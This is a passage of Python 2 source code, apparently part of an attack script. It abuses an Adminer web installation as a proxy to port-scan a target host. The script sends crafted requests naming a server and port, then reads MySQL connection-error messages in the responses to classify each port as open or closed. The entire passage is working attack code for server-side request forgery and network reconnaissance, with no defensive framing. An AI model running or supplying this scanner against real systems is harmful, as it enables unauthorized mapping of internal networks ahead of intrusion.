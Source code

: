                  s.send('GET /'+ADMINER_URI+'/?server='+TARGET+':'+aPort+'&username= HTTP/1.1\r\nHost: '+TARGET+'\r\n\r\n')
        
             except Exception as e:
                  print str(e)
                  s.close()
                  return

             while True:
                  try:
                     RES=s.recv(512)
                     ###print RES
                     ###Should see HTTP/1.1 403 not 200
                     if RES.find('HTTP/1.1 200 OK')!=-1:
                         print 'port '+aPort +  ' open'
                         port_lst.append(aPort+' open')
                         s.close()
                         break
                        
                     if RES.find('400 Bad Request')!=-1:
                         print '400 Bad Request, check params'
                         s.close()
                         break
                         raw_input()                  

                     lst=re.findall(r"([^\n<div>].*connect to MySQL server on.*[^</div>\n])|(Lost connection to MySQL server at.*)|(MySQL server has gone away.*)"+
                                 "|(No connection could be made because the target machine actively refused it.*)|(A connection attempt failed.*)|(HTTP/1.1 200 OK.*)", RES)     
            
                     if lst:
                          status=str(lst)
                          if status.find('connect to MySQL')!=-1:
                              if PRINT_CLOSED:
                                  print 'port '+ aPort +  ' closed'
                              s.close()
                              break
                          elif status.find('machine actively refused it.')!=-1:
                              if PRINT_CLOSED:
                                  print 'port '+ aPort +  ' closed'
                              s.close()
                              break
                          elif status.find('A connection attempt failed')!=-1:
                              if PRINT_CLOSED:
                                   print 'port '+ aPort +  ' closed'
                              s.close()
                              break
                          elif status.find('reading initial communication packet')!=-1:
                              print 'port '+aPort +  ' open'
                              port_lst.append(aPort+' open')
                              s.close()
                              break
                          elif status.find('MySQL server has gone away')!=-1:
                              print 'port '+aPort +  ' open'
                              port_lst.append(aPort+' open')
                              s.close()
                              break
                          elif status.find('Bad file descriptor')!=-1:
                              print 'port '+aPort +  ' open'
                              port_lst.append(aPort+' open')
                              s.close()
                              break
                          elif status.find('Got packets out of order')!=-1:
                              print 'port '+aPort +  ' open'
                              s.close()
                              break